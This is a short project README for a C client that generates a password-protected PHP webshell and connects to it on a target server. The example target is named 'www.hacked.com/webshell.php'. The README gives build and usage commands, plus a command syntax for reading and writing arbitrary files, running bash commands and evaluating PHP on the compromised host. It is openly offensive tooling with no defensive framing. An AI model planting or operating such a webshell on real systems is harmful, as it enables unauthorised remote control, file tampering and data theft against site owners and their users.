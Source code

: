 # CW3B5H3ll

CWebshell is a C client for a Php Webshell , to send commands and receive responses.

## Installation

Compile the main.c with [gcc](https://gcc.gnu.org/).

```bash
gcc main.c -o client -Werror -Wall -Wextra
```

## Usage

To generate the webshell :

```bash
./client generate <password>
```

To connect to the webshell :

```bash
./client connect <http> <www.hacked.com/webshell.php> <password>
```
C client commands :

```bash
fread:<filename> ==> to read <filename>.

fwrite:<filename>:<content> ==> to write <content> into <filename>.

exec:<command> ==> to execute bash commands. 

eval:<script> ==> to execute php script.
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.
